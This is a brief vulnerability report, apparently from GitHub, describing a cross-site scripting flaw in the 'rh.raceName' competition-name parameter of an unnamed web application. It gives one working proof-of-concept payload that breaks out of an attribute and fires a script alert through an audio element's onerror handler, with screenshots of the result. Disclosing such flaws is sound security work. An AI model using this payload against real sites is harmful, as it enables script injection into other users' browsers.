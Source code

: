 # xss
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.


Competition name: rh.raceName parameter
![image](https://user-images.githubusercontent.com/83150001/115981725-864a7180-a5c8-11eb-9e87-3054aaf157a1.png)

payload：test"><audio src=x onerror=alert(2)>
![image](https://user-images.githubusercontent.com/83150001/115981744-a1b57c80-a5c8-11eb-8b91-4c3d99daff55.png)
![image](https://user-images.githubusercontent.com/83150001/115981798-17214d00-a5c9-11eb-85b2-190b1d977905.png)
